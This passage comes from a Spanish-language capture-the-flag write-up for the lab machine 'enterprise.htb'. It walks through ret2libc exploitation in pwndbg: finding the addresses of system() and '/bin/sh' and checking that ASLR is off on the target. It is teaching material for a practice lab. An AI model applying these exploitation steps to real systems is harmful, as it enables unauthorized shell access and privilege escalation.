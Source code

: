 Bien, tenemos una dirección en memoria de la función `system()`. Ahora debemos encontrar alguna referencia hacia "`/bin/bash`" o "`/bin/sh`", para asi obtener una **Shell** cuando ejecutemos nuestro exploit:

```bash
pwndbg> find "/bin/bash"
Argument required (expression to compute).
```

Siguiendo [esta descripción de **find**](https://sourceware.org/gdb/current/onlinedocs/gdb/Searching-Memory.html), debemos pasarle dos argumentos más para que haga la búsqueda de memoria correctamente: 

> find [/sn] start_addr, +len, val1 [, val2, …]

Entonces podemos indicarle que la dirección de inicio sea la que encontramos (`system`) (asi solo no sirve, debemos agregarle `+len`) y le pasamos que el tamaño sea de **8** bytes:

```bash
pwndbg> find 0xf7d7ffa0,+12345678,"/bin/bash"
warning: Unable to access 16000 bytes of target memory at 0xf7f21f29, halting search.
Pattern not found.
```

Parece que ya está funcionando, busquemos `/bin/sh`:

```bash
pwndbg> find 0xf7d7ffa0,+12345678,"/bin/sh"
0xf7ec733c
warning: Unable to access 16000 bytes of target memory at 0xf7f210c4, halting search.
1 pattern found.
```

Perfecto, encontramos una dirección en memoria donde se hace referencia a `/bin/sh`, también nos la guardamos :) Vemos que tenemos y vamos organizando el script:

* Dirección función **system()**, que nos servirá para ejecutar la Shell (`/bin/sh`): `0xf7d7ffa0`.
* Dirección llamado `/bin/sh`: `0xf7ec733c`.

Para que las direcciones no sean dinámicas, debemos validar el [ASLR](https://es.wikipedia.org/wiki/Aleatoriedad_en_la_disposici%C3%B3n_del_espacio_de_direcciones) que esté desactivado:

**(Esto en mi máquina, pero también debemos validarlo en el sistema vulnerable.)**

```bash
❭ cat /proc/sys/kernel/randomize_va_space
0
```

Si está en **2** está activado y deberíamos pasarlo a **0** (o bypassearlo), pero por ahora tamos bien, validemos ahora el de **enterprise.htb**:

```bash
www-data@enterprise:/var/www/html/files$ cat /proc/sys/kernel/randomize_va_space
0
```

Listo, sin problemas.

...
